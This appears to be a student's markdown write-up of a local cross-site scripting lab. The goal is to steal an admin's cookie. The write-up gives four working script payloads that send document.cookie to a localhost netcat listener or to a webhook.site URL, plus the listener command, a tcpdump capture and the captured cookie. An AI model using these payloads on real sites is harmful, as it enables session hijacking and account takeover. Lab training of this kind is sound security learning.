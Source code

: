 # SETUP
* http://localhost/labs/x0x03.php      #xss
* Container 1 goes to 
	* http://localhost/labs/x0x03.php
* Container 2 goes to 
	* http://localhost/labs/x0x03_admin.php
* 
* Try to steal / EXFIL admin's cookie!
* can use netcat to listen locally
* * or use webhook.site 
* from container 1, we want to configure a payload
* from container 2, we want to trigger payload
	* Triggered payload should exfil ADMIN cookie
## PAYLOAD
* started by testing for HTML injection
	* HTML Injection was successful
```js
<h1>jim</h1>
```
* I think we need to combine the DOM and the STORED labs together in a way
* We need the redirection from DOM lab, along with the cookie stealing from stored lab
```shell
# Simple, WORKED
<script>document.location='http://127.0.0.1:8000/?'+document.cookie
</script>

# Official answer, worked
<script>var i=new Image;i.src="http://127.0.0.1:8000/?"+document.cookie; </script>

# Worked
<script>
fetch('http://127.0.0.1:8000/bogus.php?output=', {
method: 'POST',
mode: 'no-cors', 
body:document.cookie }); 
</script>

# Worked
<script>
fetch('https://webhook.site/7d79fb71-1ce5-4e3e-80b7-0f258a466ff8', {
method: 'POST',
mode: 'no-cors', 
body:document.cookie }); 
</script>
```
#### LISTENER
```shell
nc -nvlp 8000
```

* output in tcpdump to analyze in wireshark later
```shell
sudo tcpdump -i lo port 8000 -w tcp8000.pcap 
```

* had trouble  getting the output format in nc to work properly
* Burpsuite PRO can use the collaborator tool to catch the cookie.
* 3rd method was to use the webook.site 
## webhook.site
* https://webhook.site/
* Gives you unique URL to use in your payload.
* this was succesful

#### PHP output from : PHP Payload
```shell
[sudo] password for kali: 
listening on [any] 8000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49654


GET /?admin_cookie=5ac5355b84894ede056ab81b324c4675 HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
```

## Official Walkthrough
```shell
<script>var i=new Image;i.src="http://127.0.0.1:8000/?"+document.cookie; </script>
```

## References 
* https://community.f5.com/kb/technicalarticles/cross-site-scripting-xss-exploit-paths/275166
* https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
* https://webhook.site/
* https://github.com/Al0nnso/P3NTEST/blob/master/BUG%20BOUNTY/VULNERABILITIES/XSS.md
